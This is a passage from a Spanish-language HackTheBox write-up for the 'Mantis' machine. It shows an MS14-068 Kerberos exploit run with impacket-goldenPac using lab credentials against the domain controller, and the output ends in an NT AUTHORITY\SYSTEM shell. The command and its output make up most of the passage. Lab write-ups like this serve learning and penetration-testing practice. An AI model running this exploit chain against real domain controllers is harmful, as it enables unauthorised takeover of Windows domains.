 Ahora con BloodHoundAd podemos ver la información que nos ha extraido. No saqué nada en claro. Despues de no encontrar nada decidí probar si era vulnerable a "MS14-068" Para explotarlo hay varias formas, yo he usado "impacket-goldenPac"

> Para aprovechar el MS14-068, necesitamos una cuenta de usuario asociada válida con el DC y solo la IP del controlador de dominio.

```bash
❯ impacket-goldenPac -dc-ip 10.10.10.52 'htb.local/james:J@m3s_P@ssW0rd!@mantis.htb.local'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[-] Couldn´t get forest info ([Errno Connection error (htb.local:445)] [Errno 113] No route to host), continuing
[*] Attacking domain controller 10.10.10.52
[*] 10.10.10.52 found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file twQbrNmU.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service qIGx on mantis.htb.local.....
[*] Starting service qIGx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```







